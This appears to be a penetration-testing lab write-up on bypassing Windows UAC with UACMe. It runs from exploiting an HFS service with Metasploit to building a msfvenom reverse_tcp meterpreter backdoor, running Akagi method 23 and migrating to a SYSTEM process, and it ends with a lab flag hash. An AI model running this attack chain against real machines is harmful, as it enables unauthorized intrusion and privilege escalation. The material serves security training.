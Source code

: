 # Bypassing UAC With UACMe

## UAC (User Account Control)

- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.

**Note**: UAC is available in modern versions of windows from Vista to Windows 11.

- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

## Bypassing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.

**Note**: By default, Windows set the UAC level below high, it only notifies the user when an executable is going to make changes into the machine, but it won't notify when changing windows settings. And we could exploit this misconfiguration in windows security.

- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

## Bypassing UAC With UACMe

- UACMe is an open source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
    + GitHub: https://github.com/hfiref0x/UACME
- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

## Laboratory

### Initial Access

- We start by performing an Nmap scan on the target.

- We will take advantage of any vulnerability present on the target machine in order to get inital access by establishing a meterpreter or command shell session. In this case the vulnerability is in one of the services running on the target machine in port 80.

- You should identify a file sharing service called HFS on port 80 developed by Rejetto. Use MSFconsole in order to exploit the service and get initial access. Set the required options and run the exploit.

**Note**: use the search command in msfconsole to look up the desired module.

**Note**: remember you can set global options when you start the msfconsole by running `setg OPTION VALUE`.

- Once you have access to the target machine through a meterpreter session, perform some basic local enumeration to know what version of windows is running, what user we have access to, level of privilege, etc. Running `sysinfo` could reveal some useful information about the machine, `getuid` will give you the name of the user, if it is `Administrator`, good for you as it is a privileged account. In any other case, you could check if the current user you have access to is part of the local administrators group, which should be enough to bypass UAC. Run `getprivs` in the meterpreter shell.

**Note**: if you injected an x86 meterpreter session and the target is running on x64, you can run `pgrep explorer` to get the pid of the explorer and migrate your meterpreter session to that pid using `migrate $EXPLORER_PID`. However, any process running x64 should be enough.

- To get some more information, we will need to start a command shell session by running `shell` in the meterpreter session. Here we can run the command `net user` to enumerate existing users in the target. Then run `net localgroup administrators` to get the list of users belonging to the local administrator group. Now try to change the password by running `net user $USER $NEW_PASSWORD`, if the action is denied and error code 5 is display, we are facing a UAC wall that won't let us change anything unless bypassed and for that we will use UAC.

### UACMe

Now we are going to use UACMe https://github.com/hfiref0x/UACME, the documentation explains very well how it works in the readme of the repository. In this case, we only need to focus on the packet called Akagi. The method we are going to use is the number 23. 

- The first step is, of course, generate a meterpreter payload using msfvenom like this: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f exe > backdoor.exe` and we are going to use our existing meterpreter session to send the backdoor and the UACME Akagi.exe.

**Note**: UACME comes precompiled and ready to use in your lab environment, however, for any other case you will need to compile it yourself as binaries are not downloadable anymore.

**Note**: UACME replicates popular methods used by malware, be wary of other methods not known by the public that could be used by malicious actors.

- We will now execute a new msfconsole in another terminal tab and select the `multi/handler` to receive the connection once the payload is executed on the target and set the payload `windows/meterpreter/reverse_tcp` and LHOST and LPORT like you set it with msfvenom and then run it.

- Now from the session opened during getting initial access step, we are going to navigate to the root of the C drive `C:\\`, create a Temp directory, navigate to the Temp folder and then run `upload backdoor.exe` to upload the payload you created with msfvenom. Then upload the akagi executable in `/root/Desktop/tools/UACME/Akagai64.exe`.

- After that, just run `shell` in the meterpreter session to open a channel with a cmd shell in the Temp directoy.

- From there, run `.\Akagi64.exe 23 C:\Temp\backdoor.exe`. Remember the method is 23 and the path to the backdoor you want to execute must be passed as an absolute path.

- From there, check the listening agent running in msfconsole in the second terminal tab, you should see a connection that will open a meterpreter session with elevated privileges, of course running as the victim's user, but you can just migrate to another process. Run `sysinfo` and `getprivs` to check your current privilege level. And run `ps` to see all processes running in the machine, you could choose one run by the NT AUTHORITY\SYSTEM and migrate to that process to successfully escalate your privileges.

**Note**: It is highly recommended to test different builds versions of Windows with the UACMe tool using different methods to get experience using UACMe.

**Note**: Unfixed methods are the best ones to test out there.

Admin nt hash (Flag): 4d6583ed4cef81c2f2ac3c88fc5f3da6